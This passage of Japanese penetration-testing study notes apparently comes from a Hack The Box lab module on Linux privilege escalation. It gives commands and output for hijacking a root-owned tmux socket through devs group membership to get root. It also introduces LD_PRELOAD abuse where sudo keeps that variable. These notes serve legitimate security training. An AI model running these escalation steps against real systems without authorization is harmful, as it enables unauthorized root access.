 devsグループのユーザーを侵害できる場合は、このセッションにアタッチしてrootアクセスを取得できる
実行中のtmuxプロセスを確認する
```shell-session
 ps aux | grep tmux
 
> root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```

Tmuxセッションの権限を確認する
```shell-session
ls -la /shareds 

> srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```

自分のグループメンバーシップを確認する
```shell-session
id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```

最後に、tmuxセッションにアタッチし、root権限を確認する
```shell-session
tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```


# 内部構造に基づく権限昇格
## 共有ライブラリ
- Linuxプログラムでは、動的にリンクされた共有オブジェクトライブラリを使用するのが一般的
- Linuxには2種類のライブラリがある
	- 静的ライブラリ（ファイル拡張子.aで示される）
		- プログラムがコンパイルされるとき、静的ライブラリはプログラムの一部となり、変更できない
	- 動的にリンクされた共有オブジェクトライブラリ（ファイル拡張子.soで示される）
		- ただし、動的ライブラリは、それを呼び出すプログラムの実行を制御するために変更できる
		- 動的ライブラリの場所を指定する方法は複数ある

**LD_PRELOAD環境変数**
- LD_PRELOAD　:　バイナリを実行する前にライブラリをロードできる
- このライブラリの関数は、デフォルトの関数よりも優先される
- バイナリに必要な共有オブジェクトは、lddユーティリティを使用して確認できる
`/bin/ls`の実行に必要な共有ライブラリの一覧表示
```sh
ldd /bin/ls
```

**LD_PRELOADの権限昇格**
- sudo権限を持つユーザーが必要
	- env_keep+=LD_PRELOAD が含まれるとLD_PRELOADを使って権限昇格できる
```sh
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```
